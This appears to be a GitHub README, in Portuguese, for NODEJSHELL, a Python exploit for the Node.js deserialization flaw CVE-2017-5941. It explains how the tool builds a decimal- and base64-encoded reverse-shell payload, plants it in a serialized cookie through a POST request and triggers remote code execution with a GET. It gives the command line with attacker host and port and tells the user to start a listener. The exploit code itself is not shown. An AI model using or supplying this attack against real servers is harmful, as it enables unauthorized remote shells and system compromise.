


# NODEJSHELL - Exploit de reverse shell para desserialização em NodeJs (CVE-2017-5941)
O exploit gera de forma automática o payload de reverse shell que é encodado em decimal e depois em base64.
Depois disso esse payload é enviado através de uma requisição http POST que serializa o input do usuário e armazena em um cookie.
Então conseguimos o RCE acessando através de uma requisição GET.

Modo de uso:

```python3 nodejshell.py <lhost> <lport>```


**lhost**: seu endereço de IP local
**lport**: a porta em que você quer conectar a sua reverse shell

Depois disso você precisa só suprir algumas informações simples:

- Nome do parâmetro que irá enviar a payload pelo *POST*. (Somente necessário se o cookie não estiver já setado).
- Nome do cookie que irá ativar a payload pelo *GET*.

Feito isso, só ativar o seu **listener** preferido e esperar receber a conexão.



